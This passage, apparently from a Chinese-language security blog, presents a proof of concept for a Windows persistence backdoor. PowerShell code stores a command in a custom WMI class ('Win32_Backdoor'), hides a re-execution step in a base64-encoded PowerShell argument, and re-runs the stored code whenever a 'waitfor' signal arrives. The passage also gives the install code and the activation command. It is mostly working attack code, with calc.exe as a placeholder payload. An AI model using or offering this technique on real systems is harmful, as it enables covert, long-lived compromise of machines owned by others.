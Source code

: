 ![image](img/511f192981814527db5498ff06883617.png)

根据以上思路，POC如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 
```

**注：**

存在两次转义字符

```
 ``用来表示` 
```

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```

实际测试如下图
